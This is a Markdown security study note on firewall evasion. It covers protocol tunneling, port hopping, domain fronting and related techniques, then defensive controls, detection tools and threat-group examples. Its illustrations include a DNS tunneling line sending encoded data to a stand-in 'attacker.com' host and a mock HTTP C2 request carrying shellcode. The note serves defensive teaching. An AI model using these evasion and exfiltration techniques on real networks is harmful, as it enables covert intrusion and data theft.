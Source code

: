 **Firewall evasion techniques** are methods used by attackers to bypass or defeat firewall controls in order to communicate with target systems, exfiltrate data, or establish Command and Control (C2) channels.

These tactics exploit **protocol weaknesses**, **misconfigurations**, and **trusted traffic patterns** to sneak past network boundaries undetected.

---

## 🎯 Objectives of Firewall Evasion

- Establish **covert communication channels**
- Evade **intrusion detection/prevention systems (IDS/IPS)**
- Bypass **egress filtering** and **packet inspection**
- Maintain **stealth and persistence** within segmented or monitored networks

---

## 🧠 Common Evasion Techniques

| Technique                       | Description                                                                 |
|----------------------------------|-----------------------------------------------------------------------------|
| **Protocol Tunneling**           | Encapsulating forbidden traffic in allowed protocols (e.g., DNS, HTTP)     |
| **Port Hopping**                 | Switching between ports to avoid detection or blocking                     |
| **Using Common Ports**           | Leveraging ports like 80/443 to blend in with normal traffic               |
| **Encryption (TLS/SSL)**         | Obscures payloads from deep packet inspection tools                        |
| **Domain Fronting**              | Using CDN or cloud infrastructure to disguise destination domains          |
| **Fragmentation**                | Splitting packets to avoid signature detection                             |
| **Polymorphism/Obfuscation**     | Modifying payloads to avoid matching known firewall rules or signatures    |
| **HTTP/S Mimicry**               | Making C2 traffic resemble web traffic (e.g., User-Agent spoofing)         |
| **Time-based Evasion (Low-and-Slow)** | Sends traffic intermittently to avoid rate-based rules                |

---

## 🔍 Examples

### DNS Tunneling (Command and Control)
```text
Attacker encodes data in DNS queries:
  malware -> aGVsbG9AMTI3LjAuMC4x.attacker.com
Firewall allows outbound UDP 53 → C2 established.
```

**Port Hopping**
```
First: 192.168.1.1:8080
Then: 192.168.1.1:443
Then: 192.168.1.1:12345
```

**HTTP Spoofed C2**
```
POST /login HTTP/1.1
Host: fake-login[.]com
User-Agent: Mozilla/5.0 (Windows NT 10.0...)
Payload: Encoded shellcode
```

## 🛡️ Defensive Strategies

|Control Type|Countermeasure|
|---|---|
|**Preventive**|Egress filtering, allowlisting, proxy enforcement|
|**Detective**|Deep Packet Inspection (DPI), traffic analysis, behavior analytics|
|**Corrective**|Quarantine, block suspicious IPs/domains, rotate firewall rules|
|**Compensating**|DNS sinkholing, zero trust network segmentation|

---

## 🧰 Detection Tools & Techniques

|Tool/Technique|Description|
|---|---|
|**Zeek/Bro**|Detects tunneling, HTTP anomalies, unusual DNS traffic|
|**Suricata/Snort**|Custom rules for port misuse and packet anomalies|
|**Firewall logs + SIEM**|Detect blocked attempts, rate anomalies, unusual destinations|
|**RITA**|Beaconing and DNS tunneling detection via Zeek logs|
|**Decryption/SSL Inspection**|Reveals malicious payloads inside HTTPS streams|

---

## ⚠️ Real-World Use Cases

|Threat Group / Malware|Technique Used|
|---|---|
|**APT29 (Cozy Bear)**|HTTPS C2 over port 443 + domain fronting|
|**Emotet**|Polymorphic payloads via HTTP POST|
|**Cobalt Strike**|Configurable C2 using HTTP/S, DNS, or SMB|
|**IcedID**|DNS beaconing + TLS encrypted channels|

---

## 📚 Related Topics

- [[DNS Tunneling]]
- [[Command and Control (C2)]]
- [[Beaconing Detection]]
- [[SIEM Tools]]
- [[Intrusion Detection Systems (IDS)]]
- [[Intrusion Prevention Systems (IPS)]]
- [[Zero Trust Architecture]]

---

## 🏷 Tags

#firewall_evasion #C2 #IDS #network_security #evasion_techniques #stealth #dns_tunneling #zero_trust #threat_detection